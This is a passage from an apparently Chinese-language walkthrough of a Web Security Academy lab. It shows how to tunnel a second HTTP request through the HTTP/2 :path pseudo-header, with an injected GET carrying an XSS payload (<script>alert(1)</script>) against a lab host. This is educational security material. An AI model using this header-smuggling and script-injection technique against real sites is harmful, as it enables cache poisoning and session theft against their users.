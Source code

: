 随后我们需要找到一个基于HTML的XSS有效负载，而不编码或转义它可控点，发送对GET /resources的响应并观察到触发了到/resources/的重定向

[![](assets/1705287960-fddb87db7f0295a54b164c5e0210ec2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105213-6c62b3ec-b02c-1.png)  
随后尝试通过:path伪头隧道传输该请求，在查询字符串中包括XSS有效负载

```plain
#Name
:path

#Vaule
/?cachebuster=3 HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-3eff6c40f95b3b46e7ec3fdedeb89339.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105237-7a96514e-b02c-1.png)  
从上面可以注意到请求超时了，这是因为主响应中的Content-Length头比隧道请求的嵌套响应长，随后我们检查对普通GET /请求的响应中的内容长度并记下其值

[![](assets/1705287960-9193d073d5725e0955f2286570fa0a2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105250-8209aa5c-b02c-1.png)
